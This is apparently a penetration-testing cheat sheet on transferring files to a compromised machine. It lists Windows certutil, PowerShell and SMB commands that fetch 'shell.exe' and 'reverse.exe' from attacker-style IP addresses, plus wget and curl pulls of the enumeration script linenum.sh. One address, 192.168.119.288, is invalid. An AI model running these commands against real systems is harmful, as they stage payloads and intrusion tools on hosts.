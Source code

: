 # File Download

## Windows

### CMD&#x20;

```
certutil.exe -urlcache -split -f “http://192.168.119.288/shell.exe”
```

https://zetc0de.github.io/post/powershell-download-file-one-liners/

### POWERSHELL

**PowerShell (any version) **

```
(New-Object System.Net.WebClient).DownloadFile("https://example.com/archive.zip", "C:\Windows\Temp\archive.zip")
```

**PowerShell 4.0 & 5.0**&#x20;

```
Invoke-WebRequest "https://example.com/archive.zip" -OutFile "C:\Windows\Temp\archive.zip"
```

**Command is like curl**

```
PS C:> $wc = New-Object Net.WebClient 
PS C:> $wc.DownloadString("http://target/?whoami")
```

**Via SMB**

```
\\192.168.1.1\share\reverse.exe
```

**FTP - **Look details at under this node for non interactive shells.

## Linux

```
wget http://192.168.119.228/linenum.sh
curl http://192.168.1.1/linenum.sh -o linenum.sh
curl http://192.168.1.1/linenum.sh > linenum.sh
```

**FTP -** Look details at under this node for non interactive shells.
